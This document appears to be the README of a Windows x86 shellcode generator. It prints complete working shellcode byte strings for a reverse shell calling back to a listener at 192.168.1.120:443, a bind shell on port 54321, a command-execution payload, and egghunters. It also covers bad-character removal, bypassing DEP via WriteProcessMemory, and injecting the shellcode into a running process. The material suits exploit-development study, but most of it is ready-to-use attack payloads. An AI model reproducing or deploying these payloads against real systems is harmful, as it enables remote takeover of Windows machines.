 # Windows x86 Shellcode Generator

## Usage

```
$ python3 win_x86_shellcoder.py -h
usage: win_x86_shellcoder.py [-h] [-b BADCHARS] [-r] [-w] [-e {process,thread,none}] {reverse,bind,exec,egghunter,loadfile} ...

Windows x86 Shellcode Generator

positional arguments:
  {reverse,bind,exec,egghunter,loadfile}
                        Shellcode mode
    reverse             Generate reverse shell shellcode
    bind                Generate bind shell shellcode
    exec                Generate execute command shellcode
    egghunter           Generate egghunter shellcode
    loadfile            Load shellcode from file
    loadcoe             Load assembly code from file

options:
  -h, --help            show this help message and exit
  -b BADCHARS, --badchars BADCHARS
                        Characters to avoid
  -r, --run_shellcode   Inject shellcode into a current Python process
  -w, --use_windbg      Insert int3 for debugger into shellcode
  -e {process,thread,none}, --exit_func {process,thread,none}
                        Function called to terminate shellcode
```

## Examples

### Reverse Shell

```
nc -nlvp 443
```

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' reverse -i 192.168.1.120 -p 443
# shellcode size: 0x15f (351)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x0e\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8P\xb8\xcd\xcd\xd1\xbb\xf7\xd8PhWS2_Th\xf9\x1d\x7f\xc3\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\x1e\x9a\x0c0\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\xff\x9aH\x1a\xffU\x04\x89\xc61\xc0PPh\xc0\xa8\x01xf\xb8\x01\xbb\xc1\xe0\x10f\x83\xc0\x02PT_1\xc0PPPP\x04\x10PWVh2\xa6\xc3\x1a\xffU\x04VVV1\xc0H\x8dH\x0e@P\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8P\xb8\x9d\x92\x9b\xd1\xf7\xd8P\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh\x98\xb1\x89\xef\xffU\x041\xc9Qj\xffh\xc2Y\xfc\xe6\xffU\x04'
```


### Bind Shell

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' bind -p 54321
# shellcode size: 0x170 (368)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca)\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8P\xb8\xcd\xcd\xd1\xbb\xf7\xd8PhWS2_Th\xca\xcc~E\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\xb8\xe0i\xa1\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\xa9\x1f\xbe\xc0\xffU\x04\x89\xc61\xc0PPPf\xb8\xd41\xc1\xe0\x10\x04\x02PT_1\xc0\x04\x10PWVh\xa5L\x1a\x97\xffU\x041\xc0PVh\xd4f\xfd\xc5\xffU\x041\xc0PPVh\xda\xa4!k\xffU\x04\x89\xc6VVV1\xc0H\x8dH\x0e@P\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8P\xb8\x9d\x92\x9b\xd1\xf7\xd8P\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh<\xc6ry\xffU\x041\xc9Qj\xffh\xc6\xbaHp\xffU\x04'
```

```
nc -nv 192.168.1.121 54321
```


### Execute Command

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' exec -c 'calc'
# shellcode size: 0xba (186)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x03\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\x01\x02\x02\x025\x01\x03\x03\x03Phcalc\x89\xe11\xd2RQhq\x90H\xaa\xffU\x041\xc9Qj\xffh\x97\xaae}\xffU\x04'
```


### Egghunter

#### Use ntaccess

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter ntaccess -t w00tw00t
# shellcode size: 0x24 (36)
shellcode = b'f\x81\xca\xff\x0fBR\xb8:\xfe\xff\xff\xf7\xd8\xcd.<\x05Zt\xeb\xb8w00t\x89\xd7\xafu\xe6\xafu\xe3\xff\xe7'
```


#### Use SEH

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter seh -t w00tw00t
# shellcode size: 0x45 (69)
shellcode = b'\xeb*Y\xb8w00tQj\xff1\xdbd\x89#\x83\xe9\x04\x83\xc3\x04d\x89\x0bj\x02Y\x89\xdf\xf3\xafu\x07\xff\xe7f\x81\xcb\xff\x0fC\xeb\xed\xe8\xd1\xff\xff\xffj\x0cY\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06X\x83\xc4\x10P1\xc0\xc3'
```


## Bypass DEP with WriteProcessMemory

This tool was created to facilitate developing shellcodes that do not contain bad characters and do not require decoding to bypass DEP with [WriteProcessMemory](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).

Suppose [VirtualAlloc](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) or [VirtualProtect](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) cannot be used and WriteProcessMemory must be used. In that case, encoders that perform dynamic decoding such as shikata_ga_nai will likely not work because the address to which WriteProcessMemory writes the shellcode will remain not writable, making it impossible to write dynamically decoded shellcode.

One solution to this problem is to develop a shellcode that does not contain bad characters and does not require decoding.


## Find Bad Characters

`-b` is an option to specify bad characters. The specified bad characters are automatically removed from function name hashes and some instructions in the shellcode. If any remaining bad characters cannot be removed, the output will indicate which instructions contain bad characters as `[x]`.

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0C\x0D\x20\x23\x25\x26\x2B\x2E\x2F\x3D\x3F\x5C' reverse -i 192.168.1.120 -p 443
...
# bad chars were found in the shellcode
...
[ ] ebf4         : jmp 0x58
[x] eb2b         : jmp 0x91
[ ] 5e           : pop esi
[ ] 8b36         : mov esi, dword ptr [esi]
[ ] ebb9         : jmp 0x24
[ ] 3b542428     : cmp edx, dword ptr [esp + 0x28]
[ ] 75d6         : jne 0x47
[ ] 8b5724       : mov edx, dword ptr [edi + 0x24]
[ ] 01da         : add edx, ebx
[x] 668b0c4a     : mov cx, word ptr [edx + ecx*2]
[ ] 8b571c       : mov edx, dword ptr [edi + 0x1c]
...
```


## Replace Instructions

We can manually remove the remaining bad characters by replacing the detected instruction with another instruction. For example, 0x0C and 0x2B can be removed by replacing the instructions in [find_and_call.py](coder/find_and_call.py) as follows.

```asm
...
    jmp   compute_hash_again        // Next iteration

find_and_call_hop:
    jmp   find_and_call_end
    nop                             // * REMOVE 0x2B *
    nop                             // * REMOVE 0x2B *

get_next_module:
    pop   esi                       // Restore InInitOrder
    mov   esi, [esi]                // ESI = InInitOrder[X].flink (next)
    jmp   next_module

find_function_compare:
    cmp   edx, [esp+0x28]           // Compare the computed hash with the requested hash
    jnz   find_function_loop        // If it doesn't match go back to find_function_loop
    mov   edx, [edi+0x24]           // AddressOfNameOrdinals RVA
    add   edx, ebx                  // AddressOfNameOrdinals VMA
    //; mov   cx,  [edx+2*ecx]          // Extrapolate the function's ordinal
    mov   ax,  [edx+2*ecx]          // * REMOVE 0x0C *
    mov   cx, ax                    // * REMOVE 0x0C *
    mov   edx, [edi+0x1C]           // AddressOfFunctions RVA
...
```


## Debug Shellcode (for Windows Only)

### Inject shellcode into a Python process

`-r`, `--run_shellcode`

```
python3 win_x86_shellcoder.py -r reverse -i 192.168.1.120 -p 443
```


### Insert int3 for debugger into shellcode

`-w`, `--use_windbg`

```
python3 win_x86_shellcoder.py -r -w reverse -i 192.168.1.120 -p 443
```

## Check for bad characters in assembly code from file
```
python3 win_x86_shellcoder.py -b '\x00' loadcode -f code.txt
```

# Other Helper scripts
`hash.py` to get the hash of a function when resolving the funciton from the library. 
`push_string,py` to get assembly code to push strings that are null-free and bad chars free. 